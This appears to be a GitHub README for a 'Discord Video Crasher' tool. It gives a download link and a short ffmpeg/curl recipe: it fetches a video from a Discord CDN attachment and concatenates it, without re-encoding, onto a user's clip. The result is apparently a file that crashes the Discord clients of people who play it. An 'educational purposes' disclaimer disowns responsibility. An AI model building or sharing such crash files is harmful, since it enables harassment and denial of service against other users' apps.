 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

```markdown
//I'm going to ignore the specifying path's and othere stuff from here

# ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
# curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
#(
#echo file 01110101-01110101-01101000-01101000-01101000.mp4
#echo file abc.mp4
#)>"uwu.txt"
#ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

//And that's the important part! the only thing left is removing the files we've created, and it's done.```

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.
